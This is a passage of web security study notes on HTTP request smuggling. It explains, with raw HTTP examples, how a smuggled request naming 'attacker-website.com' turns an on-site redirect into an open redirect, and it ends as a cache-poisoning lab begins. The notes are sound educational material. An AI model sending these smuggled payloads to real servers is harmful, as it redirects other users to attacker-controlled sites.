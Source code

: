 ### NOLAB: Using HTTP request smuggling to turn an on-site redirect into an open redirect
Many applications perform on-site redirects from one URL to another and place the hostname from the request's Host header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash:

    GET /home HTTP/1.1
    Host: normal-website.com

    HTTP/1.1 301 Moved Permanently
    Location: https://normal-website.com/home/

This behavior is normally considered harmless, but it can be exploited in a request smuggling attack to redirect other users to an external domain. For example:

    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 54
    Transfer-Encoding: chunked

    0

    GET /home HTTP/1.1
    Host: attacker-website.com
    Foo: X

The smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server. For example:

    GET /home HTTP/1.1
    Host: attacker-website.com
    Foo: XGET /scripts/include.js HTTP/1.1
    Host: vulnerable-website.com

    HTTP/1.1 301 Moved Permanently
    Location: https://attacker-website.com/home/

In some cases, you may encounter server-level redirects that use the path to construct a root-relative URL for the Location header, for example:

    GET /example HTTP/1.1
    Host: normal-website.com

    HTTP/1.1 301 Moved Permanently
    Location: /example/

This can potentially still be used for an open redirect if the server lets you use a protocol-relative URL in the path:

    GET //attacker-website.com/example HTTP/1.1
    Host: vulnerable-website.com

    HTTP/1.1 301 Moved Permanently
    Location: //attacker-website.com/example/

### LAB: Exploiting HTTP request smuggling to perform web cache poisoning
Notice an open redirection at the `Next blog` function. Send this request:
